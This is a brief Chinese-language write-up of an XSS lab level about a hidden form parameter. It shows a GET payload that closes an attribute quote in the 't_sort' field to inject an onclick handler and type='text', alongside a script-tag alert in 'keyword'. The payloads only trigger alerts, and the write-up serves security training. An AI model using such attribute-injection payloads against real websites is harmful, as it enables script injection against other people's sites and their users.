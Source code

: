 # 知识点：
隐藏的参数
# 思路：
payload
```
?keyword=<script>alert(%27xss%27)</script>&t_sort="%20type="text"%20onclick="javascript:alert(1)"%20"
```
隐藏的表单<br />![image.png](./images/20231017_2355075199.png)<br />通过尝试发现 t_sort这个参数可以进行get传参<br />用闭合技巧注入onclick属性 还要加上type="text"将input框显现出来<br />![image.png](./images/20231017_2355088707.png)<br />![image.png](./images/20231017_2355109877.png)
